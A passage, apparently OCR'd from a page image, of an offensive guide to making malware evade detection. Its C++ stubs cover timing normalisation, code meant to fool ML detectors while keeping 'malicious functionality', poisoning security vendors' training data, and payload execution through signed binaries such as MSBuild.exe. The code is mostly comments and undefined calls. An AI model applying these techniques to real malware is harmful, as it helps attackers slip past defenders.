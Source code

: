 ### Statistical Timing Analysis Evasion
```cpp
void EvadeTimingAnalysis() {
    // Normalize all operation timings
    // Make execution indistinguishable from normal process
    auto start = std::chrono::high_resolution_clock::now();
    
    PerformOperation();
    
    auto elapsed = std::chrono::high_resolution_clock::now() - start;
    auto target = std::chrono::milliseconds(16); // 60 FPS target
    
    if (elapsed < target) {
        BusyWait(target - elapsed);
    }
}
```

## 6. **AI/ML Evasion**

### Adversarial Machine Learning
```cpp
// Generate code that fools ML-based detection
class MLEvasion {
public:
    static std::vector<BYTE> GenerateAdversarialCode() {
        // Create code that appears benign to ML models
        // but maintains malicious functionality
        return CreateMimicryPayload();
    }
    
    static void PoisonTrainingData() {
        // If possible, inject false positives into 
        // security vendor training datasets
    }
};
```

## 7. **Supply Chain Evasion**

### Signed Binary Proxy Execution
```cpp
// Use legitimately signed binaries as proxies
void UseSignedProxy() {
    // Load payload through signed system binary
    // Examples: MSBuild.exe, InstallUtil.exe, RegSvcs.exe
    ExecuteViaProxy("C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\MSBuild.exe");
}
```
